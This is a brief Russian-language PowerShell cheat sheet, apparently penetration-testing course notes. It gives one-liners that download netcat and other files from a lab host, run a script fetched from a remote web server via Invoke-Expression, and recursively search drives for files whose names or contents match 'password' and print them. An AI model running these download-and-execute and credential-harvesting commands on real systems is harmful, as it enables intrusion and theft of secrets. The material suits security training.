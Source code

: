 # Полезные командлеты Powershell

## Invoke-WebRequest

Позволяет выполнять запросы. В том числе скачивать файлы. 
Работает с Windows 8 (Powershell v3).

`Invoke-WebRequest -OutFile ./netcat.zip -Uri http://192.168.1.114/SEC560/netcat.zip`

## System.Web.WebClient
Доступен с Windows 7 (Powershell v2)

`(New-Object System.Net.WebClient).DownloadFile("http://192.168.1.114/data.zip", "data.zip")`

## Выполнить команду с удаленного веб-сервера

`Invoke-Expression (Invoke-WebRequest -Uri http://192.168.1.114/command.txt).Content`

## Рекурсивный поиск файла по регулярному выражению его имени

`ls -r C:\rootdirectory *password*.txt`

Извлекает содержимое:

`ls -r c:\rootdirectory *password*.txt | cat`

`ls -r c:\rootdirectory *password*.txt | gc`

`ls -r C:\rootdirectory *password*.txt | % { echo $_.fullname; gc $_.fullname }`

## Рекурсивный поиск содержимого файла по регулярному выражению

`ls -r C:\rootdirectory | select-string -pattern password 2>$null`

`get-childitem -path c:\rootdirectory -recurse -exclude *.js,*.php,*.css,*.jpg,*.svg,*.scss,*.gif | select-string Password: | gc`




